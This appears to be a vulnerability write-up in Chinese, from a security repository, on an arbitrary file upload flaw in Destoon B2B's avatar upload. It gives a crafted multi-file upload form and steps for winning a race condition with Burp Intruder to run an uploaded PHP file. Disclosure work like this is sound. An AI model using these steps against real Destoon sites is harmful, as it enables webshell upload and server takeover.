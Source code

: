 # Destoon b2b上传漏洞

## 普通会员上传漏洞
首先登录*[提示信息_DESTOON B2B网站管理系统](http://127.0.0.1/member/register.php?action=verify&sid=79d28392e07bfcff22488ff69ab25a51)*注册一个普通用户

漏洞页面上传[会员登录_DESTOON B2B网站管理系统](http://127.0.0.1/member/avatar.php)

为了多个验证，需要上传POST两个文件

```html
<form action="http://127.0.0.1/member/avatar.php?" method="post" enctype="multipart/form-data">
        请选择我的上传文件
	<input type="hidden" name="action" value="upload"/>
        <input type="file" name="file"/>
        <input type="file" name="file1"/>
        <input type="submit" value="上传" />
</form>
```

![](README/966F9481-0216-4252-B6B8-85E98FC29F03.png)

上传的包第一个是文件名后缀改成php
![](README/CDC56566-CB42-44FF-9D13-5B059F05A902.png)

第二个包后缀改成png
![](README/42A80BB2-FCD1-4B9E-A8AA-287459EEDD1F.png)




![](README/0E25C1BB-974B-4D05-81BE-9100BEE5988C.png)

由于文件会被删掉，所以需要进行竞争条件测试

路径 是在file_temp_avatar2.php 2是用户的ID

![](README/AC037676-E8DF-4563-B431-56D67153DB6B.png)

![](README/22D1BC9A-5585-4384-AB92-881309145122.png)

然后利用burp的intruder模块进行竞争条件测试
![](README/7567C0A6-CA28-45CB-984F-647BC01DA3E5.png)


![](README/B38DEA3E-E6FC-4B88-83E5-3CE988DA7F3C.png)







https://xz.aliyun.com/t/2797
https://www.scanv.com/news/5bacbdfd38a66c0cf45a4657.html
